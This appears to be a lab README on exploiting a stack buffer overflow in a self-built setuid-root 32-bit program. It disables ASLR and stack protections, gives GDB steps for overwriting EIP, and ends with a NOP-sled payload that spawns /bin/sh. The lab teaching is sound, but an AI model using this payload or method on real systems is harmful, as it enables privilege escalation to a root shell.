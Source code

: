ASLR off
---------------
    echo 0 > /proc/sys/kernel/randomize_va_space
Compile with No-StackProtection
-------------------------------
    gcc -m32 -g -fno-stack-protector -z execstack -o vuln vulnerable.c

User Configuration for ELF
------------------------
    sudo chown root vuln
    sudo chgrp root vuln
    sudo chmod +s vuln


Debugging
--------------
    gdb -q vuln
    start
    disass main
    #To see EIP is actually overflowed
    break *0x401207
    #Register info
    info registers
    #Test EIP with Buffer
    run $(python -c "print('A'*256)")
    run $(python -c "print('A'*252+'B'*4)")
    #Locate return address of stack with our payload
    x/100x $esp
    x/100x $ebp

**Import the address of the payload to your shellcode and run from GDB!**

BOF Final Code
----------------
    run $(python -c "print('\x90'*202+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'+'\x90'*25+'\x40\xf4\xff\xbf')")
